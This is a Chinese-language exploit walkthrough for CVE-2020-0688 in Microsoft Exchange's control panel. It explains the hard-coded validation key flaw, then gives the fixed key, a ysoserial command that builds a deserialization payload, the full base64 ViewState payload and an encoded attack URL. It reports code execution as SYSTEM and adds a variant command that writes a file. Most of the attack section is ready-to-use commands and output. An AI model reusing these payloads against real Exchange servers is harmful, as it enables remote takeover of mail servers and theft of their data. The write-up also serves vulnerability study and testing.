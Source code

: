# CVE-2020-0688

## 原理

这个漏洞是由于Exchange服务器在安装时没有正确地创建唯一的加密密钥所造成的。

具体来说，与正常软件安装每次都会产生随机密钥不同，所有Exchange  Server在安装后的web.config（C:\exchange\setup\serverroles\clientaccess\ecp\web.config）文件中都拥有相同的validationKey和decryptionKey。这些密钥用于保证ViewState的安全性。而ViewState是ASP.NET  Web应用以序列化格式存储在客户机上的服务端数据。客户端通过__VIEWSTATE请求参数将这些数据返回给服务器。攻击者可以在ExchangeControl Panel web应用上执行任意.net代码。

当攻击者通过各种手段获得一个可以访问Exchange Control Panel （ECP）组件的用户账号密码时。攻击者可以在被攻击的exchange上执行任意代码，直接获取服务器权限。

## 复现

### 获取参数

想要利用该漏洞，需要获取四个参数，分别是：

+ validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF（默认，漏洞产生原因）

+ validationalg = SHA1（默认，漏洞产生原因）

+ generator = B97B4E27

+ viewstateuserkey = ASP.NET_SessionId（手工获取，变量，每次登陆都不一致）

在这四个变量中，前两个为默认固定，viewstateuserkey和generator的值需要从经过身份验证的session中收集（登录https://ip/ecp/default.aspx，在default.aspx–>Headers–>ASP.NET_SessionId中找到viewstateuserkey的值；在default.aspx–>Response–>__VIEWSTATEGENERATOR中找到generator的值，若未找到该字段，则使用默认的B97B4E27）。

### 生成payload

使用ysoserial工具生成反序列化payload。工具下载地址[ysoserial][https://github.com/Yt1g3r/CVE-2020-0688_EXP]

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "cmd /c calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="1625798e-8558-4302-b6d2-87907ff07126"
```

得到payload如下：

```
/wEytgYAAQAAAP////8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVy
c2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRl
MzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGlu
Z1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAADYBDxSZXNvdXJjZURpY3Rp
b25hcnkNCiAgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1s
L3ByZXNlbnRhdGlvbiINCiAgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5m
eC8yMDA2L3hhbWwiDQogIHhtbG5zOlN5c3RlbT0iY2xyLW5hbWVzcGFjZTpTeXN0ZW07YXNzZW1ibHk9
bXNjb3JsaWIiDQogIHhtbG5zOkRpYWc9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fz
c2VtYmx5PXN5c3RlbSI+DQoJIDxPYmplY3REYXRhUHJvdmlkZXIgeDpLZXk9IiIgT2JqZWN0VHlwZSA9
ICJ7IHg6VHlwZSBEaWFnOlByb2Nlc3N9IiBNZXRob2ROYW1lID0gIlN0YXJ0IiA+DQogICAgIDxPYmpl
Y3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAgICAgICAgPFN5c3RlbTpTdHJpbmc+Y21k
PC9TeXN0ZW06U3RyaW5nPg0KICAgICAgICA8U3lzdGVtOlN0cmluZz4iL2MgY2FsYy5leGUiIDwvU3lz
dGVtOlN0cmluZz4NCiAgICAgPC9PYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAg
ICA8L09iamVjdERhdGFQcm92aWRlcj4NCjwvUmVzb3VyY2VEaWN0aW9uYXJ5PgvgZt0VYWOvMdz8xDFY
qHsQKtNzdA==
```

### 构造攻击地址

在生成完payload代码后，需要对payload代码进行URL Encode编码构造一个URL

```
https://ExchangeServerIP/ecp/defaults.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>
```

即

```
[+] Exp url: https://192.168.15.158/ecp/default.aspx?__VIEWSTATEGENERATOR=B97B4E
27&__VIEWSTATE=/wEytgYAAQAAAP////8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsL
kVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxY
mYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZ
Xh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAADYBDxSZ
XNvdXJjZURpY3Rpb25hcnkNCiAgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZ
ngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiINCiAgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb
2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiDQogIHhtbG5zOlN5c3RlbT0iY2xyLW5hbWVzcGFjZTpTeXN0Z
W07YXNzZW1ibHk9bXNjb3JsaWIiDQogIHhtbG5zOkRpYWc9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpY
Wdub3N0aWNzO2Fzc2VtYmx5PXN5c3RlbSI%2BDQoJIDxPYmplY3REYXRhUHJvdmlkZXIgeDpLZXk9IiI
gT2JqZWN0VHlwZSA9ICJ7IHg6VHlwZSBEaWFnOlByb2Nlc3N9IiBNZXRob2ROYW1lID0gIlN0YXJ0IiA
%2BDQogICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAgICAgICAgPFN5c
3RlbTpTdHJpbmc%2BY21kPC9TeXN0ZW06U3RyaW5nPg0KICAgICAgICA8U3lzdGVtOlN0cmluZz4iL2M
gY2FsYy5leGUiIDwvU3lzdGVtOlN0cmluZz4NCiAgICAgPC9PYmplY3REYXRhUHJvdmlkZXIuTWV0aG9
kUGFyYW1ldGVycz4NCiAgICA8L09iamVjdERhdGFQcm92aWRlcj4NCjwvUmVzb3VyY2VEaWN0aW9uYXJ
5PgtHiZP1lrub7OvMC2bJowYpBsZWXA%3D%3D
```

### 执行攻击

访问构造好的URL地址，服务器会弹出500的错误，但攻击其实成功了。

登录服务器查看进程，发现计算器已成功启动，权限为system。



## 其他

### 版本

资料显示，该漏洞普遍存在于Microsoft Exchange Server 2010 Service Pack 3，Microsoft Exchange Server 2013，Microsoft Exchange Server 2016，Microsoft Exchange Server 2019。

### 创建文件

`-c “cmd /c echo test > C:\1.txt”`

### 参考资料及利用代码

[利用代码][https://github.com/Yt1g3r/CVE-2020-0688_EXP]

[参考资料1][https://www.freebuf.com/vuls/228735.html]

[参考资料2][https://www.freebuf.com/vuls/228681.html]

